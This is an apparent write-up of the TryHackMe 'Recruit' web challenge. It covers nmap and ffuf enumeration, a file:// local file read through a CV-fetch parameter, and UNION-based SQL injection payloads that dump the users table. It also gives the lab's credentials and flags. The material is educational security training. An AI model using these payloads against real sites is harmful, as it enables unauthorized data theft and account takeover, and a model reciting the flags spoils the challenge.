# TryHackMe-Recruit-Writeup
Detailed write-up for the TryHackMe Recruit Web Challenge, covering reconnaissance, enumeration, SSRF/local file access, credential disclosure, SQL injection, and privilege escalation.

# TryHackMe - Recruit Writeup

## Overview

Recruit is a web security challenge from TryHackMe focused on identifying and exploiting vulnerabilities in a web application.

In this challenge, the attack chain involved:

- Reconnaissance
- Web Enumeration
- Information Disclosure
- SSRF / Local File Access
- Credential Disclosure
- SQL Injection
- Credential Extraction
- Administrative Access

---

## Attack Chain

Nmap
   ↓
Web Enumeration
   ↓
mail.log
   ↓
SSRF / Local File Access
   ↓
config.php
   ↓
HR Credentials
   ↓
HR Login
   ↓
SQL Injection
   ↓
users Table
   ↓
Admin Credentials
   ↓
Admin Access
   ↓
Flag

---

## 1. Reconnaissance

### Nmap

```bash
nmap -sC -sV <TARGET-IP>
```


The scan was performed to identify open ports and running services.
Findings
- Port 22 - SSH
- Port 53 - DNS
- Port 80 - HTTP
The web server on port 80 became the primary attack surface.

The scan identified the available services running on the target. 
Port 80 exposed the web application, which became the primary attack surface.

## 2. Web Enumeration

### I performed directory enumeration using ffuf.
```
ffuf -u http://<TARGET-IP>/FUZZ \
-w <WORDLIST>
```


Interesting endpoints discovered included:
- /assets
- /mail
- /javascript
- /phpmyadmin
- /server-status
The /mail directory was particularly interesting.

## 3. Information Disclosure

### Mail Log

The `/mail/mail.log` file was publicly accessible and exposed internal deployment information.



The mail log revealed:

- The **HR username is `hr`**.
- HR login credentials were temporarily stored in the application's **`config.php`** file.
- Administrator credentials were **not stored in application files** and were maintained in the backend database.
- The log also confirmed that the **API documentation page was live**.

This disclosure provided the next step in the attack chain: obtaining the HR credentials from `config.php`.



## 4.API Documentation Discovery

After reviewing the exposed mail.log, I checked the application's API documentation to understand how the recruitment portal handles candidate CVs.
The API documentation was available at:`/api.php`

The documentation revealed an endpoint for fetching candidate CVs:
```
/file.php?cv=<URL>
```
The important part here is that the application accepts a URL as user-controlled input through the cv parameter. This suggested that the server may be making requests to the supplied resource on behalf of the user.
This became an interesting attack surface because the functionality could potentially be abused to make the server access resources that should not be directly accessible.



Next: I tested the cv parameter to determine whether it could be abused for SSRF / local file access.

## 5. SSRF / Local File Access

### The application contained a file endpoint:



```
/file.php?cv=
```
I first tested:
```
/file.php?cv=config.php
```
The application responded:
Only local files are allowed
This indicated that the parameter was being processed server-side.

I then tested:
```
/file.php?cv=file://config.php
```
The application returned the PHP source code of `config.php`.
This exposed sensitive application configuration and credentials.



The configuration file contained temporary HR credentials, including the HR password. This was an Information Disclosure / Credential Disclosure vulnerability.
```php
$HR_PASSWORD = (hrpassword123);
```

## 5. HR Login

The credentials obtained from the exposed `config.php` file were used to log in to the HR account successfully.

**Username:** `hr`  
**Password:** `hrpassword123`



So exact chain:
Mail Log → Information Disclosure → file.php → file://config.php → HR Password → HR Login

## 6. SQL Injection

After logging into the HR account, I accessed the Candidate Applications page, which contains a search functionality.

I tested the search parameter with a single quote (`'`) to check how the application handled user input. The application returned a MySQL syntax error, indicating that the input was being directly included in a SQL query.

This confirmed that the search parameter was vulnerable to SQL Injection.



## 8. UNION SQL Injection

### I tested the number of columns using:

```sql
' UNION SELECT NULL,NULL,NULL,NULL-- -
```


The query was accepted, indicating a four-column result set.

### I then tested which column was reflected:
```
' UNION SELECT NULL,1+1,NULL,NULL-- -
```
The response displayed `2`, confirming that the `second column` was reflected in the application.

Identifying the Current Database

### Next, I used the database() function to identify the current database:
```
' UNION SELECT NULL,database(),NULL,NULL-- -
```
The application returned the database name=`recruit_db`, confirming the database context used by the application.

### Enumerating Database Tables
I then queried `information_schema.tables` to identify the tables available in the current database:
```
' UNION SELECT NULL,GROUP_CONCAT(table_name),NULL,NULL FROM information_schema.tables WHERE table_schema=DATABASE()-- -
```
The response revealed the available tables, including the users table.



### Enumerating Columns
After identifying the users table, I enumerated its columns:
```
' UNION SELECT NULL,GROUP_CONCAT(column_name),NULL,NULL FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users'-- -
```
The response revealed the following columns:
id, username, password



### Extracting User Credentials

Since the users table contained username and password columns, I queried those fields using UNION SQL Injection:
```
' UNION SELECT NULL,GROUP_CONCAT(username,':',password SEPARATOR '<br>'),NULL,NULL FROM users-- -
```
This returned the stored user credentials, including the administrator account.
```
admin:admin@001admin
```
The administrator credentials were then used for the final administrative login.

## 9.Admin Access

After extracting the administrator credentials from the users table, I used them to log in to the recruitment portal.
The login was successful, and the application now displayed the ADMIN interface instead of the HR interface.

The admin dashboard also revealed the final flag:
`THM{LOGGED_IN_ADM1N1}`
This confirmed that the SQL injection successfully led to administrator account takeover.



---
## 10.Attack Chain
The complete attack chain was:

Nmap
  |
  v
Web Service Discovery
  |
  v
FFUF Directory Enumeration
  |
  v
/mail/mail.log
  |
  v
Information Disclosure
  |
  v
API Documentation
  |
  v
/file.php?cv=<URL>
  |
  v
file://config.php
  |
  v
config.php Disclosure
  |
  v
HR Credentials
  |
  v
HR Login
  |
  v
Candidate Search
  |
  v
SQL Injection
  |
  v
UNION SELECT
  |
  v
Database Enumeration
  |
  v
users Table
  |
  v
username + password
  |
  v
Administrator Credentials
  |
  v
Admin Access

---

## 11.Conclusion

The Recruit challenge demonstrates how multiple small security weaknesses can be chained together to compromise an application.
The initial directory enumeration exposed the /mail directory. The exposed mail.log revealed that HR credentials were stored in config.php. The CV retrieval functionality then allowed local file access through the file:// wrapper, exposing the configuration file and HR password.
After logging in as HR, the candidate search parameter was found to be vulnerable to SQL Injection. UNION-based SQL Injection allowed the database structure to be enumerated and the users table to be queried. Finally, the administrator credentials were extracted from the database.
The key lesson is that vulnerabilities such as directory listing, information disclosure, unsafe file retrieval, hardcoded credentials, and SQL Injection can become significantly more dangerous when chained together.

## 12.Key Takeaways
- Never expose sensitive directories through directory listing.
- Sensitive logs should never be publicly accessible.
- User-controlled file/URL parameters must be strictly validated.
- Dangerous PHP stream wrappers such as file:// should be handled carefully.
- Credentials should never be hardcoded in application configuration files.
- SQL queries must use prepared statements / parameterized queries.
- Database errors should not be exposed to users.
- Applications should follow the principle of least privilege.
- Sensitive credentials should be securely hashed and protected.
  
## 13.Tools Used
- Nmap
- FFUF
- Firefox
- Manual Web Enumeration
- UNION-based SQL Injection
  
## 14.Flags Obtained
HR Flag
THM{LOGGED_IN_USER}

## 15.Final Attack Path

Enumeration
    ↓
Information Disclosure
    ↓
Local File Access
    ↓
config.php
    ↓
HR Credentials
    ↓
HR Login
    ↓
SQL Injection
    ↓
UNION SQLi
    ↓
Database Enumeration
    ↓
users Table
    ↓
Admin Credentials
    ↓
Administrator Access
